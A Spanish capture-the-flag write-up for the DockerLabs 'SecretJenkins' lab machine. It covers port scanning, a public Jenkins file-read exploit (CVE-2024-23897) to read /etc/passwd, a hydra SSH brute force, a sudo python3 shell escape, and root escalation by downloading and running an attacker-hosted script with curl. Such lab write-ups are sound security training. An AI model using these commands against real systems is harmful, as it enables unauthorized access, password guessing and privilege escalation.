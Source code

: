 # [SecretHacking](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh secretjenkins.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **8080** y el **22**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a1c0f66b-e114-4d9c-8b06-44d197ff9d93)
<br>
<br>
## Página Web (Puerto 8080)

Al ver que está abierto el puerto 8080 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:8080` ya que es el puerto 8080 el que aloja este servidor Web. Podemos ver un panel de login para Jenkins: 

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedfd01c-7a4d-45a9-a0b0-dd8b66cf42ac)

<br>

Si probamos ha hacer un fuzzing web ya sea con gobuster o wfuzz. De la siguiente forma `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2:8080/ -x txt,sql,py,js,php,html`, observamos que nos detecta muchos de subdirectorios.  <br>
`-w` ⮞ ruta al diccionario para usar en el descubrimiento de subdirectorios <br>
`u` ⮞ dirección donde se aloja el servidor web <br>
`x` ⮞ extensiones de archivos para descubrir en el fuzzing <br>
<br>

Si probamos con el primero de ellos `index` podemos ver que abajo a la derecha la versión del Jenkins usada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f7eda42-68f8-44bf-ab5e-eb70c4115cb2)

<br>
<br>

## Jenkins 2.441
Ahora que conocemos la versión de Jenkins podemos buscar en Internet en búsqueda de exploits para esta versión en especifico de la siguiente forma: `jenkins 2.44.1 github exploit`. Y nos encontramos con el siguiente repositorio de 
[github](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability). En el encontramos un poco de información sobre la vulnerabilidad a explotar, la cual consiste en leer archivos 
del sistema (LFI)<br>

Nos descargamos el exploit en python con wget de la siguiente forma
`wget https://raw.githubusercontent.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability/main/CVE-2024-23897.py` <br>, le asignamos permisos de ejecución con `chmod +x CVE-2024-23897.py`. Su uso es muy sencillo solo hay que poner la url de la página web con Jenkins y el archivo que queremos leer por lo tanto sería tal que así `python3 CVE-2024-23897.py -u http://172.17.0.2:8080/ -f /etc/passwd`. Y observamos el archivo de `/etc/passwd` donde podemos leer algunos usuarios como `bobby y pinguinito`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/081ea4f9-5afc-45e5-9375-a911c288fb91)
<br>
<br>

## Hydra / Medusa
Una vez conocemos los posibles usuarios los metemos un archivo llamado `users` aplicamos un ataque de fuerza fruta con hydra con el siguiente comando: `hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-U` ⮞ el archivo con los posibles usuarios es decir (bobby,pinguinito) <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
<br>
Nos reporta lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/13bb5fb7-d465-4fbe-8bde-1d49fe9f9bea)
<br>
<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina Vacaciones con `ssh bobby@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución.* <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)
<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **bobby** <br>
Si ejecutamos `sudo -l` podemos ver que podemos ejecutar `/usr/bin/python3` sin proporcionar contraseña con el usuario **pinguinito**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/784a5bb5-c6e0-4895-8a7e-abd7d12b0c20)
<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando `sudo python -c 'import os; os.system("/bin/sh")'`. Y lo ejecutaríamos de la siguiente forma `sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`. <br>
<br>

Y ya seríamos el usuario **pinguinito**, ejecutamos otras vez el `sudo -l` y nos encontramos con lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedce804-521c-4d03-b0e4-76d927b1c1fc)
<br>

Por lo que nos dirigimos a la ubicación del archivo e intentamos modificarlo para ejecutar una shell con python, nos damos cuenta que no contamos con ningún editor de texto, pero si tenemos curl por lo que desde nuestra máquina de atacante nos creamos un archivo llamado `script.py` que contendría lo siguiente: <br>
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5b7b63aa-43b6-49b4-ac98-acbc1d40dc20)
<br>

Nos montamos un servidor HTTP en python en la ubicación de nuestro archivo `script.py` de la siguiente forma `python3 -m http.server 80` para poder compartir dicho archivo con la máquina de **SecretJenkins**. <br>

Ahora en la máquina **SecretJenkins** accedemos al archivo de la siguiente forma `curl http://172.17.0.1/script.py -O script.py`, antes deberíamos haber puesto permiso de escritura en el archivo `script.py` con `chmod +w script.py`. Una vez tenemos dicho archivo hacemos `sudo -u root /usr/bin/python3 /opt/script.py` para ejecutar dicho archivo como root y listo ya somos root:  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d9f1e7ce-a131-4683-9fdb-fe976dcad531)

